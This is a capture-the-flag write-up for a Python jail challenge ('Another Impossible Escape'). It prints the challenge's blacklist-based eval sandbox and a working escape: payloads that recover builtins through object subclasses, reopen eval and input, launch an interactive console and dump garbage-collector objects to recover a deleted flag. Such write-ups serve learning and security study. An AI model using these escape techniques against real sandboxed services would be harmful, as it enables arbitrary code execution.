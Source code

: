 ```yaml
---
title: Srdnlen CTF 2025 - Another Impossible Escape
date: '2025-01-19'
lastmod: '2025-01-20T22:03:00+02:00'
categories:
- writeup
- srdnlen25
tags:
- misc
- pyjail
authors:
- salvatore.abello
---
```


## Challenge

```py
#!/usr/bin/env python3
import sys
import re

BANNER = r"""
############################################################
#       _                _   _                             #
#      / \   _ __   ___ | |_| |__   ___ _ __               #
#     / _ \ | '_ \ / _ \| __| '_ \ / _ \ '__|              #
#    / ___ \| | | | (_) | |_| | | |  __/ |                 #
#   /_/   \_\_| |_|\___/ \__|_| |_|\___|_|                 #
#      ___                               _ _     _         #
#     |_ _|_ __ ___  _ __   ___  ___ ___(_) |__ | | ___    #
#      | || '_ ` _ \| '_ \ / _ \/ __/ __| | '_ \| |/ _ \   #
#      | || | | | | | |_) | (_) \__ \__ \ | |_) | |  __/   #
#     |___|_| |_| |_| .__/ \___/|___/___/_|_.__/|_|\___|   #
#    _____          |_|                                    #
#   | ____|___  ___ __ _ _ __   ___                        #
#   |  _| / __|/ __/ _` | '_ \ / _ \                       #
#   | |___\__ \ (_| (_| | |_) |  __/   (Author: @uNickz)   #
#   |_____|___/\___\__,_| .__/ \___|                       #
#                       |_|                                #
#                                                          #
############################################################
"""

FLAG = "srdnlen{fake_flag}"
del FLAG

class IE:
    def __init__(self) -> None:
        print(BANNER)
        print("Welcome to another Impossible Escape!")
        print("This time in a limited edition! More information here:", sys.version)

        self.try_escape()
        return

    def code_sanitizer(self, dirty_code: str) -> str:
        if len(dirty_code) > 60:
            print("Code is too long. Exiting.")
            exit()

        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "w", "f", "q", "y", "h", "p", "v", "z", "r", "x", "k"]
        banned_symbols = [" ", "@", "`", "'", "-", "+", "\\", '"', "*"]
        banned_words = ["input", "self", "os", "try_escape", "eval", "breakpoint", "flag", "system", "sys", "escape_plan", "exec"]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        limited_items = {
            ".": 1,
            "=": 1,
            "(": 1,
            "_": 4,
        }

        for item, limit in limited_items.items():
            if dirty_code.count(item) > limit:
                print("You are trying to break the limits. Exiting.")
                exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code

    def escape_plan(self, gadgets: dict = {}) -> None:
        self.code = self.code_sanitizer(input("Submit your BEST Escape Plan: ").lower())
        return eval(self.code, {"__builtins__": {}}, gadgets)

    def try_escape(self) -> None:
        tries = max(1, min(7, int(input("How many tries do you need to escape? "))))

        for _ in range(tries):
            self.escape_plan()

        return

if __name__ == "__main__":
    with open(__file__, "r") as file_read:
        file_data = re.sub(r"srdnlen{.+}", "srdnlen{REDATTO}", file_read.read(), 1)

    with open(__file__, "w") as file_write:
        file_write.write(file_data)

    IE()
```

## Solve

This challenge is a pyjail with the following limitations:
 - We can't use the following characters:
 ```
 mwfqyhpvzrxk @`\'-+\"*
 ```
 - We can't use the following words:
 `input, self, os, try_escape, eval, breakpoint, flag, system, sys, escape_plan, exec`
 - We can only use ASCII characters
 - Builtins are removed
 - Also, some characters have a limited usage
    - We can only use `)` once
    - We can only use `.` once
    - We can only use `=` once
    - We can only use `_` four times

A few important things:
 - We can execute a maximum of 7 payloads, with a limit of 60 characters each.
 - The variables defined by us will persist between every payload execution.
 - The flag is in a variable called `FLAG`, which is deleted before executing our payloads and the string will be replaced with `srdnlen{REDATTO}`

Since we can't use certain characters, [this script](LINK HERE!!!!!!!!!!!!!!!!!!!) created two years ago by me, could come in handy.

My idea consists in grabbing `eval` and `input` so I can execute arbitrary code. Since there's a character blacklist I had to build the payload while minding the constraints:

```py
(builtins:={}.__class__.__subclasses__()[2].total.__builtins__,lst:=[].__class__(builtins),input:=builtins[lst[28]],eval:=builtins[lst[20]],eval(input(),builtins))
# Inside eval: __import__("code").interact()
```

Now that we have an interactive console, we can restore the flag by dumping all the objects tracked by the python garbage collector:

```py
__import__("gc").get_objects()
```

### Final exploit

```py
[a:={}.__class__]
[b:=a.__subclasses__]
[b:=b()[2].total]
[b:=b.__builtins__]
[a:=[].__class__(b)]
[c:=[b[a[20]],b[a[28]]()]]
__import__("code").interact()
[d:=c[0](c[1],b)]

__import__("gc").get_objects()
```
